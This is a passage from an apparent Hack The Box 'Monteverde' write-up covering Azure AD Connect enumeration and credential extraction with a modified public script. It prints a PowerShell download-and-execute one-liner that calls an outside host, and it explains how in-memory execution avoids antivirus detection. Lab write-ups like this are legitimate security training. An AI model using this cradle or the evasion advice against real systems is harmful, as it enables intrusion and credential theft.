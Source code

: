 From our enumeration with SMB, we saw `azure_uploads`; now we are seeing' mhope' as `azure admin`.  

If we check `C:\Program Files`, we can also see `Azure AD Sync` and `Azure AD Connect`. This all points to an Azure exploit that is out there.

![](/assets/images/htb/monteverde/18.png)

---

## AD Connect Exploit

Googling Azure AD connect exploit brought me to [xpn azure AD Red Team](https://blog.xpnsec.com/azuread-connect-for-redteam/).  

XPN does a great job explaining how everything works and provides us with a script that we need to modify to get it working.  

The minor change is to add `server=127.0.0.1;Database=adsyncIntegrated Security=True` in the arguments list of the script.

![](/assets/images/htb/monteverde/19.png)

Now what we are going to do is run `iex(new-object net.webclient).downloadstring('http://ip/adsync.ps1')`.  

**What does this command do?**
This is a standard one-liner used for PowerShell scripts. 
- `iex` means Invoke-Expression, which executes the downloaded string as a PowerShell command.
- `new-object net.webclient` creates a web client object to perform web requests.
- `downloadstring` fetches the content generally from a script.

Put this altogether, and we can run scripts directly from memory instead of downloading and importing the module.  

**Why do this?**
If AV is turned on, it won't get popped rather quickly and keeps us from downloading anything onto the system, leaving tools behind, etc.
